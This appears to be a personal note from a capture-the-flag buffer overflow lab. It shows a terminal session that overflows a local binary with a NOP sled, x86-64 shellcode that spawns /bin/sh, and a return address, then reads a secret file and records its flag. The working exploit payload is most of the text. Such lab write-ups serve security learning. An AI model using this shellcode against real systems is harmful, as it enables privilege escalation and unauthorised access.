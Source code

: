 ```
[user1@ip-10-10-2-237 overflow-4]$ ./buffer-overflow-2 $(python2 -c "print '\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + '\x78\xe2\xff\xff\xff\x7f'")
new word is doggo������������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1��������������������x����
sh-4.2$ whoami
user3
sh-4.2$ cat secret.txt
wowanothertime!!

yep finally do it!

```
Use the same method to read the contents of the secret file!
*wowanothertime!!*


[[Phishing Emails 4]]
